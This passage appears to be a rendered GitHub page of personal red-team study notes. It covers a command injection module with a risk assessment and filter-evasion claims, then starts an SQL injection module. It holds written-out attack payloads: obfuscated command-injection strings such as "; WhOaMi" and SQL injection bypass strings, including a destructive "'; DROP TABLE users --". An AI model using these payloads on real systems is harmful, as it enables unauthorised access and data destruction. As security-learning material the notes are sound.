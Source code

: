 ```bash

# Case Manipulation
; WhOaMi
; $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
📈 RISK ASSESSMENT
Impact: CRITICAL (Full system compromise)

Detection Difficulty: Low-Medium (Command execution logs)

Exploitation Complexity: Low (Direct system access)

🔧 MITIGATIONS UNDERSTOOD & EVADED
Input validation and sanitization - Bypassed with encoding

Allowlisting of expected input - Evaded with special characters

Web Application Firewalls - Defeated with obfuscation techniques

Least privilege principle - Overcome through privilege escalation

🚀 PROGRESSION IN RED TEAM SKILL MATRIX
✅ Network Security
✅ Web Application Security
✅ Client-Side Attacks
✅ Business Logic Attacks
✅ System-Level Compromise ← COMMAND INJECTION ADDED
◽ Final Module: Web Application Scanning

OPERATIONAL NOTES: Command injection represents one of the most severe web vulnerabilities, providing direct system access. Success requires understanding of operating system commands, filter evasion techniques, and post-exploitation methodologies for maintaining access and pivoting through networks.

# Red Monster Journey 🐲 
## SQL Injection Vulnerability Mastery

### 🎯 MODULE COMPLETION: SQL INJECTION
**Status:** Mastered ✅
**Red Team Application:** Database Compromise & Data Exfiltration

### 🔴 SQL INJECTION TRADECRAFT DOCUMENTATION

#### 📊 VULNERABILITY OVERVIEW
SQL injection vulnerabilities allow attackers to execute malicious SQL queries through vulnerable web applications, providing direct access to database systems and stored sensitive information.

#### 🎲 EXPLOITATION TECHNIQUES MASTERED

##### DETECTION & INITIAL EXPLOITATION
```sql
-- Basic Detection Payloads
' 
' OR '1'='1
' OR 1=1 --
'; DROP TABLE users --

-- Authentication Bypass
admin' --
' OR '1'='1' --
' UNION SELECT 1,1,1 FROM users WHERE '1'='1
IN-BAND SQL INJECTION
sql
-- Error-Based SQLi
```